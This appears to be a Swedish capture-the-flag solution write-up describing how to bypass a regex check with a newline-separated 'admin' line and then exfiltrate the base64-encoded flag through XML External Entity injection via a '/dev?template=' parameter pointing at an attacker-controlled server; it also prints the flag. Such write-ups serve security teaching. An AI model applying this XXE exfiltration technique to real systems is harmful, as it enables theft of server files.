 ## Tips/ledtrådar
* Riktiga haxxers vet hur man exfillar.

# Steg 1: Komma runt regexp.
* Besök instansen och ange en sträng med radbrytning och `admin` på egen rad.
* Därefter har man tillgång till `/dev`.

# Steg 2: Exfiltration med XML External Entity
* Starta en egen webserver som kan skicka exfil.xml och exfil.dtd.
  * Ersätt `$WEBSERVER` med URL till egen server.
* Besök `/dev?template=$EXFILXMLURL`.
* Den egna servern får nu bas 64-kodade flaggan i sin web-logg.



## Flagga 

Flaggan finns (base64 kodad) i `src/flag.txt` (aka undut{xxe_is_un4gettable})
